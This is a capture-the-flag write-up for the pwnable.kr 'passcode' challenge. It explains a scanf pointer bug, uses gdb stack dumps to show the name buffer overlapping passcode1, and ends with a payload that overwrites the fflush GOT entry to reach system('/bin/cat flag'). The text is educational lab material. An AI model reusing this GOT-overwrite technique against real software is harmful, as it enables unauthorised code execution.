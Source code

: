 # pwnable.kr: passcode

After logging in, we do a ```ls``` and observe the below files
```
$ ls
flag  passcode	passcode.c
$ file passcode
passcode: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=d2b7bd64f70e46b1b0eb7036b35b24a651c3666b, not stripped
```

Passcode flow is as follows
1. Prompt for user input of name, up to 100 characters, store it in the stack and say hi to us
2. The method ```login``` then prompt for 2 integer, however, the storing of the user input to the variables are incorrect
3. Then it checks passcode1==338150 and passcode2==13371337
4. If the check succeeds, it prints out the flag for us

We try to compile the program and observe the warning raised due to the incorrect paramters of ```passcode1``` instead of ```&passcode1```. Instead of passing the address of passcode1, the actual value of passcode1 is passed, hence the user input for scanf will not be written correctly.
```
$ gcc -o passcode passcode.c
passcode.c: In function ‘login’:
passcode.c:9:2: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat]
passcode.c:14:9: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat]
```

Let's try running the program, and it crashes. This may be because when the actual value of passcode2 is passed(instead of the address of passcode2), it does not reflect an actual address :(
```
$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : hi
Welcome hi!
enter passcode1 : 338150
enter passcode2 : 13371337
Segmentation fault (core dumped)
```

We compile the program with some println to observe the address of the variables
```
void login(){
	...
	printf("address of passcode1: %p\n", &passcode1);
	printf("address of passcode2: %p\n", &passcode2);
	...
}

void welcome(){
	...
	printf("address of name: %p\n", &name);
}
```
In console
```
address of name: 0xbffff2f8
address of passcode1: 0xbffff358
address of passcode2: 0xbffff35c
```
Or with gdb, we get the following (-0x30)
```
address of name: 0xbffff2c8
address of passcode1: 0xbffff328
address of passcode2: 0xbffff32c
```

Okay, we compile the original version of it and run with gdb, with an input of 100 'a' as name
```
$ gdb passcode
(gdb) break login
Breakpoint 1 at 0x804856a
(gdb) break welcome
Breakpoint 2 at 0x8048627
(gdb) run
Starting program: /home/user/Desktop/passcode 
Toddler's Secure Login System 1.0 beta.

Breakpoint 2, 0x08048627 in welcome ()
(gdb) next
Single stepping until exit from function welcome,
which has no line number information.
enter you name : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
0x08048694 in main ()
(gdb) x/50x 0xbffff2c0
0xbffff2c0:	0xb7fc7a20	0x08048814	0x61616161	0x61616161
0xbffff2d0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff2e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff2f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff300:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff310:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff320:	0x61616161	0x61616161	0x61616161	0xff256000
0xbffff330:	0x00000000	0x00000000	0xbffff358	0x08048694
0xbffff340:	0x08048814	0x00000000	0x080486b9	0xb7fc6ff4
0xbffff350:	0x080486b0	0x00000000	0x00000000	0xb7e394e3
0xbffff360:	0x00000001	0xbffff3f4	0xbffff3fc	0xb7fdc858
0xbffff370:	0x00000000	0xbffff31c	0xbffff3fc	0x00000000
0xbffff380:	0x08048290	0xb7fc6ff4
```
In the above, we observe our string of 'a', but we also notice that the last four set of 'a' eats into the passcode1 at 0xbffff328.

These four set of 'a' persist till the reading in of passcode as shown below. This means we could pass in an address of our choosing in name, and use the scanf for passcode1, to write a value to our chosen address.
```
(gdb) next
Single stepping until exit from function main,
which has no line number information.

Breakpoint 1, 0x0804856a in login ()
(gdb) next
Single stepping until exit from function login,
which has no line number information.
enter passcode1 : 3221222136

Program received signal SIGSEGV, Segmentation fault.
0xb7e6fda3 in _IO_vfscanf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/50x 0xbffff2c0
0xbffff2c0:	0xb7fc7a20	0xbffff314	0xb7e6d021	0xb7fc6ff4
0xbffff2d0:	0xb7fc7ac0	0xb7fc88c4	0xb7e1f900	0xb7e766eb
0xbffff2e0:	0xb7fc7ac0	0x08048793	0xbffff314	0x00000000
0xbffff2f0:	0xb7fc7a20	0x08048780	0xbffff314	0xb7fc6ff4
0xbffff300:	0x00000000	0x00000000	0xbffff338	0x0804858b
0xbffff310:	0x08048793	0x61616161	0x61616161	0x61616161
0xbffff320:	0x61616161	0x61616161	0x61616161	0xff256000
0xbffff330:	0x00000000	0x00000000	0xbffff358	0x08048699
0xbffff340:	0x08048814	0x00000000	0x080486b9	0xb7fc6ff4
0xbffff350:	0x080486b0	0x00000000	0x00000000	0xb7e394e3
0xbffff360:	0x00000001	0xbffff3f4	0xbffff3fc	0xb7fdc858
0xbffff370:	0x00000000	0xbffff31c	0xbffff3fc	0x00000000
0xbffff380:	0x08048290	0xb7fc6ff4
```

Looking at passcode.c, the function that follows after ```scanf("%d", passcode1);``` is a ```fflush```, an instruction that we can possibly overwrite. And to get the flag, we probably want to execute the line that ```system("/bin/cat flag");```

The address of ```fflush``` is 0x0804a004 on the server
```
passcode@ubuntu:~$ objdump -R passcode

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

The address of the line we want to jump to is 0x80485e3
```
Breakpoint 1, 0x0804856a in login ()
(gdb) x/50i $eip
   ...
   0x80485e3 <login+127>:	movl   $0x80487af,(%esp)
   0x80485ea <login+134>:	call   0x8048460 <system@plt>
   ...
```

Plug these values into our pwn script and run
```
$ ./passcode.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] passcode@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.10.0
    ASLR:     Enabled
[+] Starting remote process './passcode' on pwnable.kr: pid 4060
name:  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x04\xa0\x0
passcode1:  134514147
Toddler's Secure Login System 1.0 beta.

enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x04\xa0\x0!

enter passcode1 : Sorry mom.. I got confused about scanf usage :(

Now I can safely trust you that you have credential :)
```